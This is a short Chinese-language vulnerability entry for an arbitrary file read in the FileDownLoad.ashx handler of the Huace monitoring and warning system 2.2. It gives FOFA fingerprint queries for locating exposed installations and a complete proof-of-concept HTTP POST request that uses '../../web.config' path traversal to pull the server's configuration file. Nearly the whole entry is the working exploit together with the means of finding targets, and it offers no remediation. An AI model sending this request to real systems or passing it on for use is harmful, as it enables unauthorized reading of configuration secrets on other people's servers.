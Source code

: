 # 华测监测预警系统FileDownLoad.ashx存在任意文件读取漏洞

华测监测预警系统FileDownLoad.ashx存在任意文件读取漏洞，通过读取配置文件获取重要数据。

## fofa

```jade
app="华测监测预警系统2.2"
```

```javascript
icon_hash="-628229493"
```

## poc

```javascript
POST /Handler/FileDownLoad.ashx HTTP/1.1
Host: ip:port
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

filename=1&filepath=../../web.config
```

